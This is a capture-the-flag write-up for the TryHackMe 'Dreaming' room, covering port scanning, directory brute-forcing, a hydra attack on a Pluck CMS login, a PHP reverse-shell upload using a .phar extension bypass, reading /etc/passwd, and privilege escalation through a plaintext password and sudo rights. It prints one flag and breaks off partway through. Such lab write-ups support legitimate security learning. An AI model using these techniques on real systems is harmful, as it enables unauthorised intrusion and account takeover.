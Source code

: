 # THM write-up - [Dreaming](https://tryhackme.com/r/room/dreaming)

![[Pasted image 20241218143850.png]]

## The intro
Difficult level: **Easy**
Estimated time to complete: **45 mins** 

Let's see what we're working with, not much at all to be honest, but who needs long introductions?

_Solve the riddle that dreams have woven._
Mysterious, don't we like riddles, and we do like dreaming.

_While the king of dreams was imprisoned, his home fell into ruins. 
Can you help Sandman restore his kingdom?_

Let's go save the kingdom and maybe turn it into a democracy.

## The hunt
Let's start with some good old Reconnaissance with the OG `nmap`
`nmap -p- -T4 <target-ip>`
	because no port left behind (`-p-`)
	and we don't have time to be stealthy (`-T4`) 
	![[Pasted image 20241219104314.png]]
Would you look at that, we got ourselves an open http port and an ssh one, let's see what's at that address from our bowsers.

Navigate to `<target-ip>` from firefox: looks like we are dealing with an Apache2 server, let's keep it in mind for the future.
![[Pasted image 20241219104744.png]]

Meanwhile let's see what else we can find, `gobuster` to the rescue!
`gobuster dir -u <target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`
	append `dir`
	to our address `-u <target-ip>`
	use the directory list provided `-w <provided-list>`
	and follow the redirections `-r`
Looks like we got an `/app` directory, let's see what's there
![[Pasted image 20241219105402.png]]
`pluck-4.7.13` what's that? let's google it!
mmh first results look promising, who doesn't like [Remote Code execution vulnerability](https://www.exploit-db.com/exploits/49909)? 
![[Pasted image 20241219105634.png]]
```
Description:
A file upload restriction bypass vulnerability in Pluck CMS before 4.7.13 allows an admin
privileged user to gain access in the host through the "manage files" functionality,
which may result in remote code execution.
```
Let's go!
Firstly, let's go into the pluck folder:
![[Pasted image 20241219105924.png]]

Following the exploit instructions let's click on "admin" and land on the login page, this is what we find: a form input for a password, no username, a commented `bogus` input? 
![[Pasted image 20241218161831.png]]

let's `hydra` the `fuzz` out of this:
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:F=Invalid" -V`

![[Pasted image 20241218162034.png]]
password is `password`, I could have guessed that!
Ok we are in, let's follow the exploit: we can go to pages > manage files and upload a shell
![[Pasted image 20241219110642.png]]
and we see
![[Pasted image 20241219110904.png]]
let's get our usual php shell from the attack box, or ask AI to create one, whatever is easier:
`cat /usr/share/webshells/php/php-reverse-shell.php > myshell.php.phar`
`nano myshell.php.phar`
then we add our attack box ip and a random port, I like to go for `666` - for no particular reason.
let's also start ourselves an netcat listener at our `666` port
`nc -lvnp 666`
**Note**: if we try to upload a file with just `.php`  extension, `.txt` extension is appended, ruining all the fun, that .`phar` let's us bypass that.

Now, let's navigate to the shell, we do so by clicking on the lens:
![[Pasted image 20241219112116.png]]

Aaaand we're in!
![[Pasted image 20241219111823.png]]
But this shell is lame, let's upgrade it and make our lives a bit easier:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now more reconnaissance, or, as I like to call it, increasingly desperate search for SOMETHING
`whoami` > `www-data` laaaame
- `cat /etc/passwd`
	![[Pasted image 20241218235644.png]]

cool so we have lucien, death and morpheus, incidentally the owners of the flags we need to find. 
`cat /home/lucien/lucien_flag` > permission denied
and same goes for the other two. 
One thing is clear, we need to **ESCALATE PRIVILEDGE**.
Let's keep looking: aimlessly go around the server and look for anything interesting, despair, pray the cybersecurity Gods, curse the cybersecurity gods, talk to the AI, google  franticly, ask for a hint, go take a nap.
![[Pasted image 20241219112959.png]]

`ls -la opt`
![[Pasted image 20241219113103.png]]
curious, 2 python scripts we have reading permissions for: let's read `test.py`, ah-ha! 
![[Pasted image 20241219113454.png]]
if it isn't a password for `lucien`!
`HeyLucien#@1999!`
Let's assume lucien's identity immediately! `su lucien`
Go read the damn flag! `cat /home/lucien/lucien_flag.txt`
1. **What is the Lucien Flag?**  
	_THM{TH3_L1BR4R14N}_

2. **What is the Death Flag?**  
Now that we have a password and we know we have an `ssh` port open, let's try and get ourselves a fully functioning terminal, this reverse-shell served us well but it's time to upgrade: from a new terminal tab
`ssh lucien@<target-ip>`
and it worked!
Let' see what we can do as lucien `sudo -l`

```
User lucien may run the following commands on dreaming:
(death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

if we `ls -l` in `death`'s folder we see
![[Pasted image 20241219114207.png]]
so we can use python to run this getDreams.py script as `death`, but we can't edit it nor open. 

- `sudo -u death /usr/bin/python3 /home/death/getDreams.py`
![[Pasted image 20241219000931.png]]

uh, I just remembered, wasn't there a python script with the same name in `/opt` that we had reading permissions for? let's go see what is the deal with that


3. **What is the Morpheus Flag?**

